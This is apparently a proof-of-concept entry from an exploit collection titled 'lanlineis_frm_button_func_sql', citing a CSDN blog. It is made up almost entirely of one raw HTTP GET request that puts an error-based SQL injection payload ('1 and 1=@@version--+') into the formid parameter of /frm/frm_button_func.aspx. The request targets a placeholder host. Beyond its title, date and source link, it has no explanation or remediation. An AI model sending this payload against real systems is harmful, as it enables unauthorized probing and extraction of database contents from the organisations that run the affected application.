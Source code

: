 # lanlineis_frm_button_func_sql
2024/1/15
from: https://blog.csdn.net/luochen2436/article/details/135505804?spm=1001.2014.3001.5502
@2

```
GET /frm/frm_button_func.aspx?formid=1%20and%201=@@version--+ HTTP/1.1
Host: your_ip
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

```
